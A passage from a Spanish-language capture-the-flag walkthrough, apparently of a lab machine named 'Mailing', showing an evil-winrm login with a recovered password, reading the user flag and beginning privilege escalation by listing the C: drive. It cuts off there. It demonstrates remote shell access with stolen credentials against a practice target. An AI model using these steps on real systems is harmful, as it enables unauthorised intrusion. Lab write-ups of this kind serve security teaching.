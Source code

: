 Por lo que podemos conectarnos al servidor utilizando WinRM y ver los archivos de este usuario:


```bash
❯ evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri
                                        
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents>
```

En el escritorio ya podremos encontrar la primera flag.

```bash
*Evil-WinRM* PS C:\Users\maya> cd Desktop
ls -Force
*Evil-WinRM* PS C:\Users\maya\Desktop> ls -Force


    Directory: C:\Users\maya\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         2/28/2024   7:33 PM            282 desktop.ini
-a----         2/28/2024   7:34 PM           2350 Microsoft Edge.lnk
-ar---          9/7/2024   3:35 AM             34 user.txt


*Evil-WinRM* PS C:\Users\maya\Desktop> type user.txt
3cdb4111eb8de9c59b60de4493******
```

## Escalada de privilegios


En la raíz de la unidad C:\\ podemos encontrar una carpeta curiosa:

```bash
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/10/2024   5:32 PM                Important Documents
d-----         2/28/2024   8:49 PM                inetpub
d-----         12/7/2019  10:14 AM                PerfLogs
d-----          3/9/2024   1:47 PM                PHP
d-r---         3/13/2024   4:49 PM                Program Files
d-r---         3/14/2024   3:24 PM                Program Files (x86)
d-r---          3/3/2024   4:19 PM                Users
d-----          9/7/2024   3:36 AM                Windows
d-----         4/12/2024   5:54 AM                wwwroot
```
